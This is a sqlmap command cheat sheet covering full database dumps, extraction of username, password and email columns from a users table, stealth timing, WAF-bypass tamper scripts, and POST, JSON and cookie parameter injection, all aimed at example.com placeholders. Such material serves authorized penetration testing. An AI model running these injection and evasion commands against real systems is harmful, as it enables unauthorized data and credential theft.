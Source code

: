 ## Common Command Combinations

### Quick Database Dump
```bash
# Full enumeration and dump
sqlmap -r request.txt --dbs --tables --columns --dump-all --batch

# Specific table dump with optimization
sqlmap -r request.txt -D webapp -T users -C "username,password,email" --dump --threads=5
```

### Stealth Mode
```bash
# Low and slow approach
sqlmap -r request.txt --delay=3 --timeout=30 --level=2 --risk=1 --tamper=randomcase,space2comment
```

### Aggressive Testing
```bash
# Maximum testing
sqlmap -r request.txt --level=5 --risk=3 --threads=10 --technique=BEUST --batch
```

### WAF Bypass Combination
```bash
# Multiple evasion techniques
sqlmap -r request.txt --delay=2 --random-agent --tamper=space2comment,randomcase,charencode --level=3
```

## Request Handling & Methods

### POST Requests
```bash
# POST data injection
sqlmap -u "http://example.com/login" --data="username=admin&password=test"

# Mark POST parameter for injection
sqlmap -u "http://example.com/login" --data="username=admin*&password=test"

# JSON POST data
sqlmap -u "http://example.com/api" --data='{"id":1}' --headers="Content-Type: application/json"
```

### Cookie Injection
```bash
# Cookie parameter injection
sqlmap -u "http://example.com/page" --cookie="PHPSESSID=abc123; trackingId=xyz*"

# Level 2+ required for cookie testing
sqlmap -u "http://example.com/page" --cookie="id=1" --level=2
```

